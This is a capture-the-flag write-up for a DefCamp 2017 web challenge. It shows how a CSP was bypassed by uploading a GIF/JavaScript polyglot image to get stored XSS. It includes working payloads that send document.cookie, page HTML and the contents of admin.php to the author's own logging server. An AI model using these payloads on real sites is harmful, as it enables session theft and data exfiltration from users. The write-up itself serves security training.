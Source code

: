 ## Description: 
We are looking for your feedback about our new amazing company! :-) 

## Writeup: 
I was the first to solve this challenge and we got bonus points for this. When we visit the website we see a form asking for name, email, message and file.
The first thing I tried is to upload a php file to get a shell, but that didn't work. Looking at the response header we see: 
```
content-security-policy:default-src 'none'; img-src 'self' *.imgur.com *.ibb.co; script-src 'self'; connect-src 'self'; style-src 'self' fonts.googleapis.com fonts.gstatic.com 'unsafe-inline'; font-src 'self' fonts.gstatic.com  fonts.googleapis.com;
```
Noticing `script-src 'self'`, I immediately realized that this is XSS and we have to bypass CSP by uploading our JS through a valid image with size less than 500 bytes and the image seems to by validated with `getimagesize()`.

The best way to get a valid image with an XSS payload is through GIF images so here is what I tried: 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;document.location='https://myserver/log.php?x='+encodeURIComponent(document.cookie+document.getElementsByTagName('html')[0].innerHTML+document.cookie);
```
Now we include the image through a script tag in the message field: `<script src=/path/to/image.gif></script>` and here is what I got in the logs file: 
```
IP: 45.76.95.55 - September 30, 2017, 12:41 pm
REFERRER: https://llc.dctf-quals-17.def.camp//bot.php?id=258
Array
(
    [x] => <head>
<script src="jquery.js.min"></script>
</head>
<body>


<a href="admin.php">Dashboard</a>
<div align="center"><h4>Message Sent. Here's the preview:</h4>
	<div>
	Name: test@test
	Email: test@test
	Message: test<script src="/__acf23acea0ea2f39205ab707c8ed19d3/x.gif"></script></div></div></body>
)
```

We didn't get the flag, so it's probably in the `admin.php` file, all we have to do is to get its contents through an ajax request (jquery is alread loaded). 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;$.ajax('/admin.php').done(function(data){location='https://myserver/log.php?x='+encodeURIComponent(data);});
```
and we got the flag: `DCTF{808f50ca3f3182a30e76bb9fcc0fdcb7f75f4ce597f7abe1793e3942acf3ec9e}` 
